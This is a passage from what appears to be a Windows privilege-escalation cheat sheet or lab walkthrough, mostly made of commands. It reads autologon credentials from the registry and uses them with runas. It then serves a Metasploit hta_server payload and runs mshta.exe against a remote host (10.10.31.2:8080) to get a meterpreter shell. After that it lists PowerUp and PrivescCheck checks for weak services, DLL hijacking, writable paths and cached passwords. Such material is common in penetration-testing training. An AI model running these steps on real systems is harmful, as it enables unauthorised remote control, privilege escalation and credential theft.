reg query 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' /v AutoAdminLogon
```


<figure><figcaption></figcaption></figure>

**Step 2 :** We are running a command prompt, i.e., cmd.exe, as an administrator user using discovered credentials.


```
runas.exe /user:administrator cmd
```


<figure><figcaption></figcaption></figure>

**Step 3 :** Running the hta\_server module to gain the meterpreter shell. Start msfconsole.


```shellscript
msfconsole -q
use exploit/windows/misc/hta_server
exploit
```


<figure><figcaption></figcaption></figure>

**Step 4:** Gaining a meterpreter shell.


```
mshta.exe http://10.10.31.2:8080/ytvGoswT.hta
```


<figure><figcaption></figcaption></figure>

#### Services


```
Get-ModifiableService
Get-UnquotedService
```


**Service executable / permissions:**


```
Get-ModifiableServiceFile
```


**DLL hijacking:**


```
Find-PathDLLHijack
Find-ProcessDLLHijack
```


**Scheduled Tasks:**


```
Get-ModifiableScheduledTaskFile
Get-ScheduledTask
```


**PATH / writable directories:**


```
Get-ModifiablePath
```


Registry


```
Get-ModifiableRegistryAutoRun
Get-RegAlwaysInstallElevated
```


**Credentials / configuration:**


```
Get-CachedGPPPassword
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
```


#### all


```
Invoke-AllChecks
```


***

### PrivescCheck


```
. .\PrivescCheck.ps1
Invoke-PrivescCheck
```


<figure><figcaption></figcaption></figure>


The scan has started and it would take 1-2 minutes to finish.


<figure><figcaption></figcaption></figure>
